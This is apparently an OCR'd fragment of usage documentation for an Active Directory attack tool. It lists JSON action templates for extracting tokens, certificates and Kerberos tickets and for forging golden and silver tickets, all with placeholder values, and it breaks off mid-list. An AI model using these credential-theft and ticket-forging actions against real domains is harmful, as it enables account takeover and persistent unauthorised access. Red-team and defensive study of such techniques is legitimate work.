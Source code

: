 ```bash
{
  "action": "extract_tokens",
  "target_user": "user@domain.com"
}

# Extract certificates
{
  "action": "extract_certificates",
  "target_user": "user@domain.com"
}
```

### Ticket Manipulation
```bash
# Extract tickets
{
  "action": "extract_tickets",
  "ticket_file": "/path/to/tickets.kirbi"
}

# Create golden ticket
{
  "action": "golden_ticket",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "target_dc": "dc.domain.com"
}

# Create silver ticket
{
  "action": "silver_ticket",
  "target_user": "user@domain.com",
  "target_domain": "domain.com",
  "service_name": "cifs/server.domain.com"
}

# Export tickets
{
  "action": "ticket_export",
  "ticket_file": "/path/to/tickets.kirbi",
  "ticket_format": "kirbi"
}

# Import tickets
{
  "action": "ticket_import",
  "ticket_file": "/path/to/tickets.kirbi",
  "ticket_format": "kirbi"
}

# Purge tickets
{
  "action": "ticket_purge",
  "target_user": "user@domain.com"
}

# List tickets
{
  "action": "ticket_list",
  "target_user": "user@domain.com"
}

# Use ticket
```